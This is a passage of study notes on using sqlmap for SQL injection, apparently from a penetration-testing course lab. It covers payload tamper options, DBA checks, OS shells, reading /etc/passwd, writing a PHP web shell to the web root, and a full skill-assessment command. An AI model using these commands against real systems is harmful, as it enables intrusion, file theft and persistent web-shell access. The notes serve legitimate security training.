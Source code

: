     - To tamper our payload we have a huge list of tamper mechanims that we can use: `--tamper`, `--list-tampers`
    - Finally we can send chunked requests if we use the options: `--chunked`
- OS exploitation:
    - We can check if we have dba privileges: `--is-dba`
    - If we have privileges we can get a shell inside sqlmap: `--os-shell`
    - We can read a file directly in SQLmap: `--file-read "/etc/passwd"`
    - Or we can write a shell to `shell.php` and write it in the filesystem if we have permissions: `--file-write "shell.php" --file-dest "/var/www/html/shell.php"`
    - When trying to get a shell use the error based injection if we can because its the best way to get a shell: `--os-shell --technique=E`
    - Command of the skill assessment: `sqlmap -r request_case13.txt -p id --risk 3 --level 5 --random-agent -tamper=between,space2comment --search -T final_flag --batch -v 3`